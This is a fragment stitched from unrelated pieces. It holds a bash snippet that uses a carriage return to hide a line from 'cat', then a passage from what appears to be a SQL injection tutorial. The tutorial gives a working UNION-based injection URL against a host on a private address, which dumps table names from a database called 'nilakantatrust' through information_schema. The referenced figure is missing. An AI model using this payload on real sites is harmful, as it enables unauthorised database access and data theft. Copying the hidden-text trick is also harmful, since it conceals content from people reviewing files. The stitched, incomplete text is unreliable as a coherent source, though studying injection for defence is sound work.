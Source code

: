 carriage return for hiding the text line from cat
```bash
echo -e "text\r                         " > some_file
cat some_file
```

Extracting tables from the database
Now let’s try extracting all the tables from the database “nilakantatrust”.

`http://192.168.2.3/news-and-events.php?id=-22 union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()—`



Figure 10

Figure 10 shows all the tables dumped from the database “nilakantatrust”.

Information_schema is the table which contains meta-data, nothing but information about all the tables and columns of the database.
